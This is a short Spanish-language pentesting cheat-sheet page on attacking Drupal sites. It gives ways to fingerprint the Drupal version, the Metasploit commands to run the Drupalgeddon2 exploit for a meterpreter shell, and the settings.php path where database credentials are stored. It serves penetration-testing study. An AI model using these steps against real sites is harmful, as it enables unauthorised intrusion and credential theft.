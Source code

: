```yaml
---
title: "Drupal"
layout: "single"
category: "Web Pentesting"
slug: "web-pentesting/drupal"
date: "2025-09-30"
---
```


### Version drupal
* En ocasiones en el panel de login, podemos ver la version de drupal en el código fuente.
* A veces tenemos el robots.txt (nmap a veces lo encuentra), y nos dice la url escondida que hace referencia a la versión, por ej: /drupal-75-7
* en el fichero CHANGELOG.txt

### Vulnerabilidad Drupalgeddon
Es una vulnerabilidad que nos permite obtener una sesión de meterpreter que luego se puede convertir en una shell.

```bash
msfconsole

search drupal 7
use exploit/unix/webapp/drupal_drupalgeddon2

# completamos los campos y "run"
```

### BBDD fichero conexion
/path/to/drupal/sites/default/settings.php

ahí buscar la línea:
```bash
$databases['default']['default'] = array (
...
...
```

